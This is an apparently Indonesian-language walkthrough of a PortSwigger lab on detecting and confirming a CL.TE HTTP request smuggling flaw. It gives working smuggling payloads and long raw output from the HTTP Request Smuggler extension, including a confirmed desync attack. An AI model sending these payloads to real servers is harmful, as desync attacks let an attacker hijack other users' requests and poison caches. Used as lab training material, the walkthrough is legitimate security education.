# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Untuk menyelesaikan lab ini, selundupkan permintaan ke server back-end, sehingga permintaan selanjutnya untuk /(Akar web) memicu respons 404 Not Found. 




## Prepare Burp for Request Smuggling



### 1. Downgrade HTTP Protocol to HTTP/1.1



### 2. Change Request Method to POST




### 3. Disable Automatic UPdate of Content-Length



### 4. Show non-printable characters



dan jika kita send,maka akan mengebalikan response 200



## Detect The CL.TE Vulnerability



Yang akan kita lakun adalah menambkna `Transfer-Encoding: chunked`,di ikuti degan baris baru untuk memisahkan header request kita dari request body.Kemudian kita ingin menunjukkan bahwa kita mengirimkan potongan berukuran 3 byte,di ikuti konten abc,di ikuti garis baru,di ikuti huruf X,dan baris baru lainnya,dan atur `Content-Length: 6`,untuk menunjukna kepada server frontend jika menggunakan konten yang di tautkan,bahwa konten telah berakhir setelah abc,kemudain kita klik send.

**Contoh :**

```http
POST / HTTP/1.1
Host: 0a5d007503f8f053817625ff00800071.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X

```



Dan ketika kita klik send,,disini kita tidak langung mendapatkn respnse,tapi ada delay,dan setelah beberapa detik kita mendapatkan error `Server Error: Communication timed out`



**Penjelasan :**

Ini Terjadi karena frontend yagn menggunakan `Content-Length: 6` telah mgnhilangkan `X` dari request sebelum meneruskanay ke backend.Jadi,ketika backend kita menerima request ini akan mencari ukuran chunk berikutnay dimana `X` sebelumnya berada,tetapi karena ukuran chunk berikutnay hilang,backend akan tetap membuka koneksi untuk sementara waktu sambil menunggu ukuran chunk tersebut,dan ketika akhirnay tidak tiba,permintaan kita akan hais waktu (timeout) .Dengan begitu kita tahu bahwa server frontend menggunakan `Content-Length`,dan server menggunakan `Transfer-Encoding` (CL.TE).




Ini berarti ktia dapat mengirimkan permintaan serangan yang  ambigu yang akan di perlakukan berbeda oleh server frontend dan backend,Jadi mari kita konfirmasi dan selesaikan lab nya.

Kita dapat menggunakan payload ini untuk melakukannya.dan send 2 kali

```http
POST / HTTP/1.1
Host: 0a5d007503f8f053817625ff00800071.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

## Hasil dari extension HTTP Request Smuggler 

```bash
======================================
POST /?utm_campaign=z HTTP/1.1
Host: 0a5d007503f8f053817625ff00800071.web-security-academy.net
Transfer-Encoding: chunked
Connection: close

2
XX
12
XX
19
XXAAAABBBB
0

CCCCDDDD
0


======================================

Found issue: Possible HTTP Request Smuggling: ONE.TWO (Length-based Chunk Body)
Target: https://0a5d007503f8f053817625ff00800071.web-security-academy.net
A timeout was observed when using line terminator '\r' in chunk bodies with specific length calculations, and the timeout was reproducible. This suggests a discrepancy in how the front-end and back-end calculate chunk lengths when line terminators are present, which could be exploitable for HTTP request smuggling attacks. For more information about this technique, see: https://w4ke.info/2025/06/18/funky-chunks.html
Evidence: 
======================================
POST /?utm_campaign=z HTTP/1.1
Host: 0a5d007503f8f053817625ff00800071.web-security-academy.net
Transfer-Encoding: chunked
Connection: close

2
XX
12
XX
19
XXAAAABBBB
0

CCCCDDDD
0


======================================

Found issue: Possible HTTP Request Smuggling: TWO.ONE (Length-based Chunk Body)
Target: https://0a5d007503f8f053817625ff00800071.web-security-academy.net
A timeout was observed when using line terminator '\n' in chunk bodies with different length calculations, and the timeout was reproducible. This suggests a discrepancy in how the front-end and back-end calculate chunk lengths when line terminators are present, which could be exploitable for HTTP request smuggling attacks. For more information about this technique, see: https://w4ke.info/2025/06/18/funky-chunks.html
Evidence: 
======================================
POST /?utm_campaign=z HTTP/1.1
Host: 0a5d007503f8f053817625ff00800071.web-security-academy.net
Transfer-Encoding: chunked
Connection: close

2
XX
10

AAAABBBBCCCCDD
0


======================================

Found issue: Possible HTTP Request Smuggling: TWO.ONE (Length-based Chunk Body)
Target: https://0a5d007503f8f053817625ff00800071.web-security-academy.net
A timeout was observed when using line terminator '\r' in chunk bodies with different length calculations, and the timeout was reproducible. This suggests a discrepancy in how the front-end and back-end calculate chunk lengths when line terminators are present, which could be exploitable for HTTP request smuggling attacks. For more information about this technique, see: https://w4ke.info/2025/06/18/funky-chunks.html
Evidence: 
======================================
POST /?utm_campaign=z HTTP/1.1
Host: 0a5d007503f8f053817625ff00800071.web-security-academy.net
Transfer-Encoding: chunked
Connection: close

2
XX
10

AAAABBBBCCCCDD
0


======================================

Found issue: Possible HTTP Request Smuggling: ZERO.TWO (Length-based Chunk Body)
Target: https://0a5d007503f8f053817625ff00800071.web-security-academy.net
A timeout was observed when using an empty line terminator in chunk bodies with specific length calculations, and the timeout was reproducible. This suggests a discrepancy in how the front-end and back-end calculate chunk lengths when empty terminators are present, which could be exploitable for HTTP request smuggling attacks. For more information about this technique, see: https://w4ke.info/2025/06/18/funky-chunks.html
Evidence: 
======================================
POST /?utm_campaign=z HTTP/1.1
Host: 0a5d007503f8f053817625ff00800071.web-security-academy.net
Transfer-Encoding: chunked
Connection: close

2
XX012
XX
19
XXAAAABBBB
0

CCCCDDDD
0


======================================

Found issue: Possible HTTP Request Smuggling: TWO.ZERO (Length-based Chunk Body)
Target: https://0a5d007503f8f053817625ff00800071.web-security-academy.net
A timeout was observed when using an empty line terminator in chunk bodies with different length calculations, and the timeout was reproducible. This suggests a discrepancy in how the front-end and back-end calculate chunk lengths when empty terminators are present, which could be exploitable for HTTP request smuggling attacks. For more information about this technique, see: https://w4ke.info/2025/06/18/funky-chunks.html
Evidence: 
======================================
POST /?utm_campaign=z HTTP/1.1
Host: 0a5d007503f8f053817625ff00800071.web-security-academy.net
Transfer-Encoding: chunked
Connection: close

2
xx010

AAAABBBBCCCCDD
0


======================================

Queueing request scan: Smuggle probe
Found issue: HTTP Request Smuggling Confirmed: G -connection
Target: https://0a5d007503f8f053817625ff00800071.web-security-academy.net
HTTP Request Smuggler attempted a request smuggling attack, and it appeared to succeed. Please refer to the following posts for further information: <br/><a href="https://portswigger.net/blog/http-desync-attacks">https://portswigger.net/blog/http-desync-attacks</a><br/><a href="https://portswigger.net/research/http-desync-attacks-what-happened-next">https://portswigger.net/research/http-desync-attacks-what-happened-next</a><b/r><a href="https://portswigger.net/research/breaking-the-chains-on-http-request-smuggler">https://portswigger.net/research/breaking-the-chains-on-http-request-smuggler</a>
Evidence: 
======================================
POST / HTTP/1.1
Host: 0a5d007503f8f053817625ff00800071.web-security-academy.net
Cookie: session=DlQEe7tsbUVmVueG0FC2O9MhmIPbFkgT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Referer: https://login.portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
fakecontentlength: 24
Connection: Transfer_Encoding
Transfer_Encoding: chunked

e
utm_campaign=z
0


======================================
POST / HTTP/1.1
Host: 0a5d007503f8f053817625ff00800071.web-security-academy.net
Cookie: session=DlQEe7tsbUVmVueG0FC2O9MhmIPbFkgT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Referer: https://login.portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
fakecontentlength: 25
Connection: Transfer_Encoding
Transfer_Encoding: chunked
Content-length: 17

f
utm_campaign=zG
0


======================================
POST / HTTP/1.1
Host: 0a5d007503f8f053817625ff00800071.web-security-academy.net
Cookie: session=DlQEe7tsbUVmVueG0FC2O9MhmIPbFkgT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Referer: https://login.portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
fakecontentlength: 24
Connection: Transfer_Encoding
Transfer_Encoding: chunked

e
utm_campaign=z
0


======================================
```